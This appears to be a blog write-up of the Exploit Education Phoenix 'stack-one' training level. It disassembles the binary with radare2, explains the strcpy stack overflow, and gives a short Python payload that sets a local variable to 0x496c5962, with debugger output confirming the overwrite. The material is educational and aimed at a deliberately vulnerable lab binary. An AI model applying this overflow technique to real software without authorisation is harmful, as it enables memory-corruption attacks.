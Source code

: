 ```yaml
---
layout: post
title:  "Phoenix x86 Stack One"
date: "2019-10-10 15:00:00 +0300"
categories: exploit-education phoenix x86
---
```


Stack One is very much like the first level with a few minor exceptions, which will be introduced shortly.

The use of `rabin2` is essential to understand a little bit about the binary.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-one
arch     x86
baddr    0x8048000
binsz    3651
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

So as to avoid repetition, the information about the binary is almost identical to that of the previous level. To sum up, this is a 32-bit Linux ELF with no protection against stack-based buffer overflows, among others.

Time to disassemble the binary with `radare2`.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-one
{% endhighlight %}

{% highlight nasm %}
[0x08048380]> aas
Cannot analyze at 0x080485f0
[0x08048380]> afl
0x080482fc    1 17           sym._init
0x080484d0    7 277  -> 112  sym.frame_dummy
0x080485b0    5 49           sym.__do_global_ctors_aux
0x080485e1    1 12           sym._fini
0x08048450    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   47 524  -> 625  sym..interp
0x08048380    1 62           entry0
0x08048370    1 6            sym.imp.__libc_start_main
0x080486f8    1 14           loc.__GNU_EH_FRAME_HDR
0x08048714    3 34           sym..eh_frame
0x08048750    1 44           obj.__EH_FRAME_BEGIN
0x080483c0    4 49   -> 40   sym.deregister_tm_clones
0x08048515    6 145          main
0x08048340    1 6            sym.imp.puts
0x08048350    1 6            sym.imp.errx
0x08048320    1 6            sym.imp.strcpy
0x08048330    1 6            sym.imp.printf
0x08048360    1 6            sym.imp.exit
[0x08048380]> s main
[0x08048515]> pdf
/ (fcn) main 145
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483b4
|           0x08048515      8d4c2404       lea ecx, [arg_4h]
|           0x08048519      83e4f0         and esp, 0xfffffff0
|           0x0804851c      ff71fc         push dword [ecx - 4]
|           0x0804851f      55             push ebp
|           0x08048520      89e5           mov ebp, esp
|           0x08048522      53             push ebx
|           0x08048523      51             push ecx
|           0x08048524      83ec50         sub esp, 0x50
|           0x08048527      89cb           mov ebx, ecx
|           0x08048529      83ec0c         sub esp, 0xc
|           0x0804852c      68f0850408     push str.Welcome_to_phoenix_stack_one__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x80485f0 ; "Welcome to phoenix/stack-one, brought to you by https://exploit.education"
|           0x08048531      e80afeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048536      83c410         add esp, 0x10
|           0x08048539      833b01         cmp dword [ebx], 1
|       ,=< 0x0804853c      7f0f           jg 0x804854d
|       |   0x0804853e      83ec08         sub esp, 8
|       |   0x08048541      683c860408     push str.specify_an_argument__to_be_copied_into_the__buffer ; 0x804863c ; "specify an argument, to be copied into the \"buffer\""
|       |   0x08048546      6a01           push 1                      ; 1
|       |   0x08048548      e803feffff     call sym.imp.errx           ; void errx(int eval)
|       `-> 0x0804854d      c745f4000000.  mov dword [var_ch], 0
|           0x08048554      8b4304         mov eax, dword [ebx + 4]
|           0x08048557      83c004         add eax, 4
|           0x0804855a      8b00           mov eax, dword [eax]
|           0x0804855c      83ec08         sub esp, 8
|           0x0804855f      50             push eax
|           0x08048560      8d45b4         lea eax, [var_4ch]
|           0x08048563      50             push eax
|           0x08048564      e8b7fdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
|           0x08048569      83c410         add esp, 0x10
|           0x0804856c      8b45f4         mov eax, dword [var_ch]
|           0x0804856f      3d62596c49     cmp eax, 0x496c5962
|       ,=< 0x08048574      7512           jne 0x8048588
|       |   0x08048576      83ec0c         sub esp, 0xc
|       |   0x08048579      6870860408     push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value ; 0x8048670 ; "Well done, you have successfully set changeme to the correct value"
|       |   0x0804857e      e8bdfdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x08048583      83c410         add esp, 0x10
|      ,==< 0x08048586      eb14           jmp 0x804859c
|      |`-> 0x08048588      8b45f4         mov eax, dword [var_ch]
|      |    0x0804858b      83ec08         sub esp, 8
|      |    0x0804858e      50             push eax
|      |    0x0804858f      68b4860408     push str.Getting_closer__changeme_is_currently_0x_08x__we_want_0x496c5962 ; 0x80486b4 ; "Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n"
|      |    0x08048594      e897fdffff     call sym.imp.printf         ; int printf(const char *format)
|      |    0x08048599      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x8048586
|      `--> 0x0804859c      83ec0c         sub esp, 0xc
|           0x0804859f      6a00           push 0
\           0x080485a1      e8bafdffff     call sym.imp.exit           ; void exit(int status)
{% endhighlight %}

Below is the output of `agf`, which outputs the basic blocks function graph.

{% highlight nasm %}
[0x08048515]> agf
[0x08048515]>  # int main (int argc, char **argv, char **envp);
                   .---------------------------------------------------------------------------------------.
                   |  0x8048515                                                                            |
                   | (fcn) main 145                                                                        |
                   |   int main (int argc, char **argv, char **envp);                                      |
                   | ; var int32_t var_4ch @ ebp-0x4c                                                      |
                   | ; var int32_t var_ch @ ebp-0xc                                                        |
                   | ; arg int32_t arg_4h @ esp+0x4                                                        |
                   | ; DATA XREF from entry0 @ 0x80483b4                                                   |
                   | lea ecx, [arg_4h]                                                                     |
                   | and esp, 0xfffffff0                                                                   |
                   | push dword [ecx - 4]                                                                  |
                   | push ebp                                                                              |
                   | mov ebp, esp                                                                          |
                   | push ebx                                                                              |
                   | push ecx                                                                              |
                   | sub esp, 0x50                                                                         |
                   | mov ebx, ecx                                                                          |
                   | sub esp, 0xc                                                                          |
                   | ; sym..rodata                                                                         |
                   | ; 0x80485f0                                                                           |
                   | ; "Welcome to phoenix/stack-one, brought to you by https://exploit.education"         |
                   | push str.Welcome_to_phoenix_stack_one__brought_to_you_by_https:__exploit.education    |
                   | ; int puts(const char *s)                                                             |
                   | call sym.imp.puts;[oa]                                                                |
                   | add esp, 0x10                                                                         |
                   | cmp dword [ebx], 1                                                                    |
                   | jg 0x804854d                                                                          |
                   `---------------------------------------------------------------------------------------'
                           f t
                           | |
                           | '--------------------------------------------.
    .----------------------'                                              |
    |                                                                     |
.----------------------------------------------------------------.    .---------------------------------------------.
|  0x804853e                                                     |    |  0x804854d                                  |
| sub esp, 8                                                     |    | mov dword [var_ch], 0                       |
| ; 0x804863c                                                    |    | mov eax, dword [ebx + 4]                    |
| ; "specify an argument, to be copied into the \"buffer\""      |    | add eax, 4                                  |
| push str.specify_an_argument__to_be_copied_into_the__buffer    |    | mov eax, dword [eax]                        |
| ; 1                                                            |    | sub esp, 8                                  |
| push 1                                                         |    | push eax                                    |
| ; void errx(int eval)                                          |    | lea eax, [var_4ch]                          |
| call sym.imp.errx;[ob]                                         |    | push eax                                    |
`----------------------------------------------------------------'    | ; char *strcpy(char *dest, const char *src) |
                                                                      | call sym.imp.strcpy;[oc]                    |
                                                                      | add esp, 0x10                               |
                                                                      | mov eax, dword [var_ch]                     |
                                                                      | cmp eax, 0x496c5962                         |
                                                                      | jne 0x8048588                               |
                                                                      `---------------------------------------------'
                                                                              f t
                                                                              | |
                                                                              | '-------------------.
              .---------------------------------------------------------------'                     |
              |                                                                                     |
          .--------------------------------------------------------------------------------.    .------------------------------------------------------------------------------.
          |  0x8048576                                                                     |    |  0x8048588                                                                   |
          | sub esp, 0xc                                                                   |    | mov eax, dword [var_ch]                                                      |
          | ; 0x8048670                                                                    |    | sub esp, 8                                                                   |
          | ; "Well done, you have successfully set changeme to the correct value"         |    | push eax                                                                     |
          | push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value    |    | ; 0x80486b4                                                                  |
          | ; int puts(const char *s)                                                      |    | ; "Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n"       |
          | call sym.imp.puts;[oa]                                                         |    | push str.Getting_closer__changeme_is_currently_0x_08x__we_want_0x496c5962    |
          | add esp, 0x10                                                                  |    | ; int printf(const char *format)                                             |
          | jmp 0x804859c                                                                  |    | call sym.imp.printf;[od]                                                     |
          `--------------------------------------------------------------------------------'    | add esp, 0x10                                                                |
              v                                                                                 `------------------------------------------------------------------------------'
              |                                                                                     v
              |                                                                                     |
              '------------------------------------------------------------------.                  |
                                                                                 | .----------------'
                                                                                 | |
                                                                           .-----------------------------------.
                                                                           |  0x804859c                        |
                                                                           | ; CODE XREF from main @ 0x8048586 |
                                                                           | sub esp, 0xc                      |
                                                                           | push 0                            |
                                                                           | ; void exit(int status)           |
                                                                           | call sym.imp.exit;[oe]            |
                                                                           `-----------------------------------'
{% endhighlight %}

Unlike the previous level, the input is not read from STDIN, but, rather, is passed as an argument to the binary. Also, the `gets` call is replaced by `strcpy`, which also allows stack-based buffer overflows considering that it does not restrict the size of bytes to be copied.

The buffer's size is still 64 bytes and we need to overflow the stack so that the value of the local variable `var_ch` is overwritten with `0x496c5962`.

Here follows a `python3` script to create the exploit:

{% highlight python %}
#!/usr/bin/env python3
import os

os.write(1, b'\x58'*64 + b'\x62\x59\x6c\x49')
{% endhighlight %}

{% highlight shell %}
$ ./theScript.py > pattern
{% endhighlight %}

Now, the binary can be debugged as follows:

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-one `cat pattern`
{% endhighlight %}

In order to verify the stack contents before and after the `strcpy` call, a breakpoint is needed at the address of that call.

{% highlight nasm %}
[0xf7f20d4b]> aas
Cannot analyze at 0x080485f0
[0xf7f20d4b]> db 0x08048564
[0xf7f20d4b]> dc
Welcome to phoenix/stack-one, brought to you by https://exploit.education
hit breakpoint at: 8048564
{% endhighlight %}

The value of `var_ch` before the call is:

{% highlight nasm %}
[0xf7eed929]> px/xw 0xffa8aeb8-0xc
0xffa8aeac  0x00000000                                   ....
{% endhighlight %}

The stack before the call:

{% highlight nasm %}
[0x08048564]> dr
eax = 0xffa8ae6c
ebx = 0xffa8aed0
ecx = 0xffa8ada0
edx = 0x00000000
esi = 0xffa8af44
edi = 0x00000002
esp = 0xffa8ae50
ebp = 0xffa8aeb8
eip = 0x08048564
eflags = 0x00000292
oeax = 0xffffffff
[0x08048564]> px/24xw 0xffa8ae50
0xffa8ae50  0xffa8ae6c 0xffa8c5cb 0x0000007d 0x00000010  l.......}.......
0xffa8ae60  0x080482fc 0x080485e1 0x00000000 0x0000005c  ............\...
0xffa8ae70  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffa8ae80  0x00000011 0xf7f5819c 0x00000000 0x080482cc  ................
0xffa8ae90  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffa8aea0  0x00000000 0x00000000 0x00000000 0x00000000  ................
{% endhighlight %}

and after the call:

{% highlight nasm %}
[0x08048564]> dso
hit breakpoint at: 8048569
[0x08048564]> px/24xw 0xffa8ae50
0xffa8ae50  0xffa8ae6c 0xffa8c5cb 0x0000007d 0x00000010  l.......}.......
0xffa8ae60  0x080482fc 0x080485e1 0x00000000 0x58585858  ............XXXX
0xffa8ae70  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8ae80  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8ae90  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8aea0  0x58585858 0x58585858 0x58585858 0x496c5962  XXXXXXXXXXXXbYlI
{% endhighlight %}

Note that the value of the local variable `var_ch` has been overwritten, as is shown below:

{% highlight nasm %}
[0x08048564]> px/xw 0xffa8aeb8-0xc
0xffa8aeac  0x496c5962                                   bYlI
{% endhighlight %}

Continuing with the execution:

{% highlight plaintext %}
[0x08048564]> dc
Well done, you have successfully set changeme to the correct value
{% endhighlight %}

## Conclusion
This level has many similarities with the first level, but with one noteable difference. That is, the objective was not to simply overwrite the value of a local variable, but to overflow the stack such that the variable contains a specific value.